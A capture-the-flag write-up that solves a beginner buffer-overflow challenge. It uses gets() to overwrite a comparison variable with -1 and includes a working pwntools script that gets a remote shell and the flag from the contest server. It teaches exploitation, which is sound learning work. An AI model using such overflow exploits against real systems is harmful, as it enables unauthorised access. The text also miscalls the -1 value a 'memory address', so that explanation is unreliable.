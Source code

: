 # pwn/beginner-generic-pwn-number-0
Author: pepsipu

rob keeps making me write beginner pwn! i'll show him...

```nc mc.ax 31199```

# Solution

For beginner pwn challenges, they are usually some type of buffer overflow challenges.

Analyzing the c code they gave to us, we see that it is a buffer overflow exploit from the line, gets(heartfelt_message);

gets is a c function that is very vulnerable to many types of buffer overflow exploits.

Taking a look at the rest of the code, something else seems very interesting.

The lines, 
  if(inspirational_message_index == -1) {
    system("/bin/sh");
  }
}

We see that the another variable is being compared in order to get a shell and not our input variable.

Let's now take a look at the main function in ghidra.

```
undefined8 main(void)

{
  uint uVar1;
  time_t tVar2;
  char local_38 [40];
  ulong local_10;
  
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  uVar1 = rand();
  local_10 = (ulong)(uVar1 & 1);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts(*(char **)(inspirational_messages + local_10 * 8));
  puts(
      "rob inc has had some serious layoffs lately and i have to do all the beginner pwn all my self!"
      );
  puts("can you write me a heartfelt message to cheer me up? :(");
  gets(local_38);
  if (local_10 == 0xffffffffffffffff) {
    system("/bin/sh");
  }
  return 0;
}
```
Looking at the main function in ghidra, we see some things that are useful to us that we couldn't see in the c code provided.

We see that instead of that other variable being compared to a -1, it is compared to a memory address.

Now we know that we need to get to this memory address.

Now we just have to find the offset. 

Looking at the ghidra code we see that 40 bytes are assigned.

```Idk why for some reason but ghidra gives more accurate byte readings```

Now that we know that the offset is 40 bytes, lets make a python script to get into this shell.

We will be using pwntools.

The script I made looks like this:

```
from pwn import *

exe = ELF("beginner-generic-pwn-number-0")

context.binary = exe


def conn():
        if False:
                return process([exe.path])
        else:
                return remote("mc.ax", 31199)


def main():
        r = conn()
        r.recvuntil("can you write me a heartfelt message to cheer me up? :(")
        r.sendline(b"A"*40 + p64(0xffffffffffffffff))
        r.interactive()


if __name__ == "__main__":
        main()
```

The top part of the script is mostly just connecting to their server using the credentials they provided with the netcat.

Inside the main, we first receieve a connection from the server, wait until we get the message from the server before we put input (Not needed), then we send our payload and get into interactive mode, which just means we get into a shell. 

If we are in interactive and get a EOF, which means End of File, something is wrong.

Let's take a look at the payload.

Basically, we just fill up the first 40 bytes by doing 40 A's first then we use p64 which packs the bytes so we dont have to do \xff\xff\xff\xff\xff\xff\xff\xff. (They are the same thing)

Now that we sent it to that address, we should be getting a shell from their server if we run the program.

```
python3 buffer-overflow.py                                                                   
[*] '/home/kali/Downloads/beginner-generic-pwn-number-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to mc.ax on port 31199: Done
[*] Switching to interactive mode

$ ls
flag.txt
run
$ cat flag.txt
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
[*] Got EOF while reading in interactive
$  
```

And we do get a shell from their server.

We print out the flag.txt file using cat and get the flag.

Don't worry about the EOF now we already got the flag.

# Flag
```flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}```
